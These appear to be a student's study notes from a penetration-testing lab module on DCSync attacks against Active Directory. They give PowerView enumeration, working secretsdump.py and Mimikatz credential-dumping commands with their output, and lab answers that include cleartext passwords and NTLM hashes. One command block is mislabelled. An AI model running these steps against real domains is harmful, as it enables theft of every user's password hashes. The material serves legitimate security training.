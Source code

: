 # DCSync

## What is DCSync

DCSync is a technique for stealing the Active Directory password database by using the built-in `Directory Replication Service Remote Protocol`, which is used by Domain Controllers to replicate domain data. This allows an attacker to mimic a Domain Controller to retrieve user NTLM password hashes.

To perform this attack, you must have control over an account that has the rights to perform domain replication (a user with the Replicating Directory Changes and Replicating Directory Changes All permissions set).

**Using Get-DomainUser to View adunn's Group Membership**

```powershell-session
PS C:\htb> Get-DomainUser -Identity adunn  |select samaccountname,objectsid,memberof,useraccountcontrol |fl


samaccountname     : adunn
objectsid          : S-1-5-21-3842939050-3880317879-2865463114-1164
memberof           : {CN=VPN Users,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=Shared Calendar
                     Read,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=Printer Access,OU=Security
                     Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=File Share H Drive,OU=Security
                     Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL...}
useraccountcontrol : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
```

`objectsid : S-1-5-21-3842939050-3880317879-2865463114-1164`

**Using Get-ObjectAcl to Check adunn's Replication Rights**

```powershell-session
PS C:\htb> $sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"
PS C:\htb> Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-498
ObjectAceType         : DS-Replication-Get-Changes

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-516
ObjectAceType         : DS-Replication-Get-Changes-All

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1164
ObjectAceType         : DS-Replication-Get-Changes-In-Filtered-Set

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1164
ObjectAceType         : DS-Replication-Get-Changes

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1164
ObjectAceType         : DS-Replication-Get-Changes-All
```

DCSync replication can be performed using tools such as Mimikatz, Invoke-DCSync, and Impacket’s secretsdump.py.

### **Extracting NTLM Hashes and Kerberos Keys Using secretsdump.py**

```shell-session
secretsdump.py -outputfile dcsync_hashes -just-dc <user>:<password>@<ipaddress> 
secretsdump.py -outputfile dcsync_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 
```

* \-just-dc-ntlm -> only give NTLM hashes from NTDS file
  * creates 3 files 1 has NTLM hash 2 has kerberos keys 3 cleartext password from NTDS for accounts set with reversible encryption.
* \-just-dc-ntlm \<USERNAME> -> NTLM hash for specific user
* \-pwd-last-set -> see when each account's password was last chaged
* \-history -> dump password history
* \-user-status -> check if user is disabled

If reversible encryption is set, the passwords are stored using RC4 encrpytion and the key used to encrypt is stored in Syskey and can be extrated by Domain Admin. secretsdump.py wil decrypt password with this option enabled while dumping the NTDS file as Domain Admin or using DCSync

**Enumerating Further using Get-ADUser**

```powershell-session
PS C:\htb> Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl

DistinguishedName  : CN=PROXYAGENT,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
Enabled            : True
GivenName          :
Name               : PROXYAGENT
ObjectClass        : user
ObjectGUID         : c72d37d9-e9ff-4e54-9afa-77775eaaf334
SamAccountName     : proxyagent
SID                : S-1-5-21-3842939050-3880317879-2865463114-5222
Surname            :
userAccountControl : 640
UserPrincipalName  :
```

We can see that one account, `proxyagent`, has the reversible encryption option set with PowerView as well:

**Checking for Reversible Encryption Option using Get-DomainUser**

```powershell-session
PS C:\htb> Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol

samaccountname                         useraccountcontrol
--------------                         ------------------
proxyagent     ENCRYPTED_TEXT_PWD_ALLOWED, NORMAL_ACCOUNT
syncron        ENCRYPTED_TEXT_PWD_ALLOWED, NORMAL_ACCOUNT
```

**Displaying the Decrypted Password**

```shell-session
cat inlanefreight_hashes.ntds.cleartext 

proxyagent:CLEARTEXT:Pr0xy_ILFREIGHT!
```

### **Performing the Attack with Mimikatz**

```powershell-session
PS C:\htb> .\mimikatz.exe

mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
[DC] 'INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'INLANEFREIGHT\administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : administrator
User Principal Name  : administrator@inlanefreight.local
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 10/27/2021 6:49:32 AM
Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: 88ad09182de639ccc6579eb0849751cf

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 4625fd0c31368ff4c255a3b876eaac3d
```

## Assessment

**Perform a DCSync attack and look for another user with the option "Store password using reversible encryption" set. Submit the username as your answer.**

```
PS C:\Tools\mimikatz\x64> Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl

DistinguishedName  : CN=PROXYAGENT,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
Enabled            : True
GivenName          :
Name               : PROXYAGENT
ObjectClass        : user
ObjectGUID         : c72d37d9-e9ff-4e54-9afa-77775eaaf334
SamAccountName     : proxyagent
SID                : S-1-5-21-3842939050-3880317879-2865463114-5222
Surname            :
userAccountControl : 640
UserPrincipalName  :

DistinguishedName  : CN=syncron,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
Enabled            : True
GivenName          :
Name               : syncron
ObjectClass        : user
ObjectGUID         : 36857917-0314-49a3-b09f-40415851ea6d
SamAccountName     : syncron
SID                : S-1-5-21-3842939050-3880317879-2865463114-5617
Surname            :
userAccountControl : 640
UserPrincipalName  :

```

**What is this user's cleartext password?**

ssh to linux machine to run secretsdump.py

```
secretsdump.py -just-dc INLANEFREIGHT/adunn:SyncMaster757@172.16.5.5 -outputfile inlanefreight_hashes
```

<figure><img src="../../../.gitbook/assets/image (46) (2).png" alt=""><figcaption><p>syncron:Mycleart3xtP@ss!</p></figcaption></figure>

**Perform a DCSync attack and submit the NTLM hash for the khartsfield user as your answer.**

<figure><img src="../../../.gitbook/assets/image (22) (1).png" alt=""><figcaption><p>4bb3b317845f0954200a6b0acc9b9f9a</p></figcaption></figure>











